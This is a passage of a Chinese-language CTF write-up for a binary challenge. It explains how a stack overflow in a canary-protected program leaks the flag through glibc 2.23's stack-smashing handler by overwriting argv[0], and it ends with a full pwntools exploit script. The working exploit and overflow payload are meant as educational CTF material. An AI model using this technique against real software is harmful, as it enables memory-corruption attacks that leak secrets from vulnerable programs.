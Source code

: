 输入这三组值就可以通过校验，随后程序将读取 `flag`，但并没有输出；不过这里存在一个明显的栈溢出漏洞，配合 `put + flag` 就可以了？但程序是开启了 canary 保护的。

这里需要用到 `libc-2.23` 的 canary 信息泄露，查看 glibc 源码(2.23)中的 `stack_chk_fail` 函数实现，最终跟进到 `debug/fortify_fail.c`：
<div align="center">
<img src="images/fortify-fail-source-code.png" width=500>
</br>[7.fortify_fail源码]
</div>

当触发 canary 报错时，会将 `argv[0]` 的值随错误消息一并输出。那么我们只需要通过栈溢出，将 `flag` 的地址覆盖主函数 `argv[0]` 参数的地址即可，`flag` 将随 canary 错误信息一并输出。

### 0x03 题解
编写 `exp.py` 如下：
```
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']

random = [(1, 1238332924), (2, 272569182), (3, 1182312688)]

#p = process(["./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./New_World"], env={"LD_PRELOAD":"./libc.so.6"})
p = process("./New_World_patch")
#p = remote("127.0.0.1", 7777)

def dbg():
    gdb.attach(proc.pidof(p)[0])

if __name__ == "__main__":
    #dbg()
    for i in range(3):
        p.readuntil("New World;")

        p.sendline("%d" % random[i][0])
        p.sendline("%d" % random[i][1])
        p.readuntil("!!\n")
    # end for

    print(p.recvuntil("is open."))

    flag_addr = 0x602140
    payload = p64(flag_addr)*35
    p.send(payload)
    p.interactive()
```

